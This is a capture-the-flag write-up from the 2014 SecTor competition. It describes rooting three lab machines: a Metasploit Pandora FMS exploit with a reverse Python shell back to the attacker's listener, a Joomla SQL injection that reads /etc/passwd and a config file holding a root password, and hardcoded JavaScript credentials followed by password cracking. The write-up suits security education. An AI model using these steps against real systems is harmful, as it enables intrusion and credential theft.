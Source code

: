 ### Solved by superkojiman

[SecTor](http://sector.ca) is an annual security conference held in Toronto. When I heard that the CTF would be back, I signed the team up under our old monicker buhnluv (VulnHub backwards). There was a minimum of 2 players per team, and a maximum of 5. I was initially going to be tackling the challenges with palor from #vulnhub and his co-worker, but unfortunately they were called into work and so I was on my own. 

The CTF was 5 hours long, with 8 machines to hack into. The goal was to get root, read the flag, and submit it for the points. Within the first hour, someone without a team asked to play and was put on my team. [Jason](https://twitter.com/inuk_x) sat with me through the entire game and hacked one of the targets and scored us some points. Another fellow, whose name I unfortunately didn't get, joined us later on and also got one of the boxes and pushed us up in the scoreboard.

Due to the time constraint, I was unable to take proper notes and screenshots for this writeup. I managed to hack into four of the eight targets, one of which I took no notes on. So I'll writeup what I can while it's still fresh in my mind. I also don't remember how many points were allocated to each challenge. The lowest was 200, and the highest I got was 700. One of the teams who got root on the targets would change the flag, and so when we tried to submit it when we hacked in, it got rejected. We had to wait for the admin to verify we had root and give us the points. Because of this, some of the flags I list here may not be correct, but the procedure to get root should be accurate. 


### 192.168.101.13

This target was running a vulnerable version of Pandora FMS that was vulnerable to remote code execution. Getting a shell on the target was easily done using Metasploit's pandora_fms_exec module and a reverse python shell:


```
msf exploit(pandora_fms_exec) > show options

Module options (exploit/linux/http/pandora_fms_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        Use a proxy chain
   RHOST      192.168.101.13   yes       The target address
   RPORT      8023             yes       The target port
   TARGETURI  /                yes       The base path to the Pandora instance
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  92.168.101.121   yes       The listen address
   LPORT  443              yes       The listen port
   SHELL  /bin/bash        yes       The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Pandora 5.0RC1
```

This exploit actually attempts to escalate to root privileges on its own, and it did a fine job of it:

```
msf exploit(pandora_fms_exec) > exploit

[*] Started reverse handler on 192.168.101.121:443
[*] 192.168.101.13:8023 - Sending payload
[*] 192.168.101.13:8023 - Trying to escalate privileges to root

bash-4.1$ trap '' HUP
bash-4.1$ python -c 'import pty;pty.spawn("/bin/sh")'
sh-4.1$ su - artica
sudo -s
-bash-4.1$ sudo -s
[root@els4 artica]# cat /root/flag.txt
flag_8903789f930f9b824c5968381cd885bb
```

### 192.168.101.20

This target was running a version of Joomla that was vulnerable to SQL inection. Once again, Metasploit to the rescue with auxiliary module joomla_weblinks_sqli. 

```
msf auxiliary(joomla_weblinks_sqli) > show options

Module options (auxiliary/gather/joomla_weblinks_sqli):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   CATEGORYID  0                yes       The category ID to use in the SQL injection
   FILEPATH    /etc/passwd      yes       The filepath to read on the server
   Proxies                      no        Use a proxy chain
   RHOST       192.168.101.20   yes       The target address
   RPORT       80               yes       The target port
   TARGETURI   /                yes       Base Joomla directory path
   VHOST                        no        HTTP server virtual host
```

Running the initial test returned the contents of /etc/passwd. After a bit of enumeration, I found /var/www/html/configuration.php which contained the root password:

```php
<?php
class JConfig {
    public $offline = '0';
    public $offline_message = 'This site is down for maintenance.<br /> Please check back again soon.';
    public $display_offline_message = '1';
    public $offline_image = '';
    public $sitename = 'Quick Go Sports';
    public $editor = 'tinymce';
    public $captcha = '0';
    public $list_limit = '20';
    public $access = '1';
    public $debug = '0';
    public $debug_lang = '0';
    public $dbtype = 'mysqli';
    public $host = 'localhost';
    public $user = 'root';
    public $password = 'J2o5gU4gCyc5hXr';
```

SSH was enabled on this target, so I logged in as root with the password J2o5gU4gCyc5hXr and was able to read the flag. 

### 192.168.101.25

Navigating to http://192.168.101.25 showed a login form that gave the user the ability to read the contents of index.php. Looking at the page's source code referenced a JavaScript file admin/auth.js. The contets of this file contained the admin user's login credentials:

```javascript
function login(){
        var username = document.getElementById('username').value;
        var password = document.getElementById('password').value;
        if(username == 'admin' && password == '@dm1ni$trat0r'){
                document.getElementById('data').innerHTML = "<p>Login Successful!</p>";
                showFile();
        }else {
                document.getElementById('data').innerHTML = "<p>Login Failed!</p>";
        }
}
```

Once I was able to authenticate, I could read any file, like /etc/passwd

![](/images/2014/sector/01.png)

Interestingly, the root password was not shadowed. I was able to crack it using john, which revealed the password as 1234567890. From here I logged in as root via SSH and got the flag:

```text
# ssh root@192.168.101.25
The authenticity of host '192.168.101.25 (192.168.101.25)' can't be established.
RSA key fingerprint is d8:c9:78:07:6d:42:1c:bd:12:cc:33:07:cf:36:d3:d6.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.101.25' (RSA) to the list of known hosts.
1234567890

root@192.168.101.25's password:
Last login: Tue Oct 21 07:06:34 2014 from 192.168.101.106
[root@elw6 ~]# ls
flag.txt
[root@elw6 ~]# cat flag.txt
flag_b96d6f9d438e2cfe6e659abd69e102441
```

### Final thoughts
SecTor CTF was a lot of fun, and I'm pleased with how we did. I was close to scoring a 5th box, but ran out of time. In the end, we placed at second: 

![](/images/2014/sector/02.png) 

I'm annoyed that I didn't take more detailed notes, but at the time, I was just rushing to get as many points as possible. Thanks to Jason and the other fellow who helped out, it was much appreciated! Next year I'll be more mindful about taking notes and perhaps 2015's writeup won't be quite so sparse. 

